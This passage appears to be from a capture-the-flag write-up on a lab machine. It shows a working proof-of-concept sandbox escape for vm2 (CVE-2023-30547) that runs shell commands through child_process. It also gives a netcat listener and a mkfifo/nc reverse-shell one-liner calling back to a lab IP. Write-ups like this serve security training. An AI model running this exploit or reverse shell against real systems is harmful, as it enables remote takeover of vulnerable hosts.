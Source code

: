 After some research into vm2, I found a recently disclosed Sandbox Escape vulnerability in CVE-2023-30547 that could be leveraged to break out of the sandbox.

![CVE_search](/assets/img/WriteUps/Codify/CVE_search.png)

You can find the PoC [here](https://gist.github.com/leesh3288/e4aa7b90417b0b0ac7bcd5b09ac7d3bd).

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('command');
}
`

console.log(vm.run(code));
```


Now is time for start a reverse shell. So, start the handler on your machine with Netcat
```bash
nc -nlvp 4444
```
In order to execute the reverse shell on the victim machine, overwrite "command" in the PoC and insert the bash command that will create the connection
```bash
rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.234 4444 >/tmp/f
```
The connection is established